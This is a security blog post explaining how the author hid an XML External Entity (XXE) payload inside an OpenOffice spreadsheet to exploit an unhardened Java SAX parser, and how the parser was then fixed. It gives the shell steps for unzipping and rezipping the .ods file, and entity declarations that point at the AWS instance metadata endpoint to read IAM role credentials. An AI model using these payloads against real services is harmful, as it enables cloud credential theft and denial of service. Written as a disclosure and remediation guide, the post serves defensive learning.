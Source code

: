 ```yaml
---
title: "Hiding XXE in Spreadsheets"
date: 2018-06-08T12:24:08+01:00
tags: ["security", "xml-is-evil"]
featured_image: "/images/hiding_xxe_in_spreadsheets_title.jpg"
---
```


Recently I tried to poke holes in a service.  I found myself [laughing out loud]({{< ref "/posts/laughing_out_loud_malicious_auth.md" >}}). 
This was a vulnerability whereby modifying a SAML authentication while being rePOSTed via the browser allowed 
me to inject a malicious payload (see [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) 
and [XML External Entity (XXE) Prevention Cheat Sheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)) 
that could be used to use up a service's memory and CPU.  Health checks and automatic service restarts would have 
healed the service but it still would have allowed an attacker to mount a Denial of Service attack without 
needing a lot of requests.

# Finding the Issue

Subsequently, I identified a number of services that needed to be fixed, and while I was fixing services I used the 
following regular expression to find other possible weaknesses:

```shell script
SAXBuilder|SAXReader|XMLReader|SAXTransformerFactory|SchemaFactory|TransformerFactory|XMLInputFactory|DocumentBuilderFactory|SAXParserFactory
```

This lead me to find the following code snippet in a class called WorksheetParser

```java
public WorksheetParser() throws ParserConfigurationException, SAXException
{
  SAXParserFactory factory = SAXParserFactory.newInstance();

  factory.setNamespaceAware(true);
  factory.setValidating(true);

  this.saxParser = factory.newSAXParser();
}
```

and `WorksheetParser` was used to parse ODF spreadsheets (OpenOffice spreadsheets).

In this app, "worksheet"s were used so that organisations can use a simple spreadsheet to collect their information and 
upload it.  The app parsed the information and played it back to the user.

Now, this got me thinking - as the ODF file format is just a ZIP file with XML content - and I had just found an 
unsecured `SAXParserFactory`, how difficult would it be to exploit that?

# The Exploit

So I got the spreadsheet and opened it up in LibreOffice and I filled in some basic data including first name and 
last name and saved the file.

Then I unzipped it

```shell script
$ mkdir xxe_bomb
$ cd xxe_bomb
$ unzip ../template_filled_in.ods
Archive:  ../template_filled_in.ods
 extracting: mimetype               
  inflating: styles.xml             
  inflating: META-INF/manifest.xml  
  inflating: content.xml            
  inflating: meta.xml               
 extracting: media/image1.png
```

then I just edited the content.xml file and added

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe-root [
        <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
```

then I looked for the last name that I entered ("Doe") - and replaced it with &xxe;

Then it was just a matter of zipping it back up again as my new payload file

```shell script
$ zip ../xxe_bomb.ods *
  adding: META-INF/ (stored 0%)
  adding: content.xml (deflated 98%)
  adding: media/ (stored 0%)
  adding: meta.xml (deflated 57%)
  adding: mimetype (deflated 4%)
  adding: styles.xml (deflated 79%)
```

Then once I had uploaded the file and the app played back the last name - I was able to get the IAM role...

# Limitations

The exploit was somewhat limited because the app validated the last name, and if there are unknown characters 
(like '{' or '}') an error would be displayed. So I wasn't able to extract the AWS keys by setting the payload to:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe-root [
        <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/app-server-role">
]>
```

as per [https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials)

Also those credentials would have been somewhat limited as they were locked down.

However, with enough knowledge of the system and the ability to execute arbitrary GET requests, I believe quite a 
bit of damage could have been done.

# The Fix

The offending class was changed to

```java
public WorksheetParser() throws ParserConfigurationException, SAXException
{
  SAXParserFactory factory = SAXParserFactory.newInstance();
  factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
  factory.setXIncludeAware(false);
  factory.setNamespaceAware(true);
  factory.setValidating(true);

  this.saxParser = factory.newSAXParser();
}
```

as per the [OWASP XXE Prevention Cheat Sheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet#JAXP_DocumentBuilderFactory.2C_SAXParserFactory_and_DOM4J).

# Moral of the Story

*   Malicious XXE payloads can hidden in files that do not have the XML extension
*   Do not assume that XML processing is safe by default (particular when using older libraries) 
*   XML is evil
